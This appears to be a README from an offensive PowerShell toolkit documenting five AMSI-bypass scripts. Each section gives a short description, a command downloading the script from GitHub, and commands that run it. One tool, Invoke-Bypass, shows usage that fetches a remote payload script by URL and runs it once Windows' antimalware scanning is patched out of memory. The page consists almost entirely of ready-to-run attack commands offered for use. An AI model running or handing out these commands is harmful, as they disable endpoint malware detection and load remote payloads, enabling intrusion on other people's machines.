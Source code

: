 ## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Disable-Amsi.ps1
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)<br />[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Invoke-Bypass.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-Bypass](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/Invoke-Bypass.ps1)|disable AMSI within current process + exec script through bypass?|User Land|4 bypass technics available (manual)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```
<br />

**execute:**
```powershell
Get-Help .\Invoke-Bypass.ps1 -full
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   

<br />

## ScanInterception.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[ScanInterception](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/ScanInterception.ps1)|Unchain AMSI by patching the provider’s unmonitored memory space|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/ScanInterception.ps1" -OutFile "ScanInterception.ps1"
```

<br />

**execute:**
```powershell
#Test detection
amsiutils

#Patch amsi scan function
.\ScanInterception.ps1

#Test detection
amsiutils
```   

## patch-amsi-x64-powershell.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[patch-amsi-x64-powershell](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/patch-amsi-x64-powershell.ps1)|disable AMSI within current process|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/patch-amsi-x64-powershell.ps1" -OutFile "patch-amsi-x64-powershell.ps1"
```

<br />

**execute:**
```powershell
#Test detection
"amsiutils"

#Patch amsi scan function
.\patch-amsi-x64-powershell.ps1

#Test detection
"amsiutils"
```  
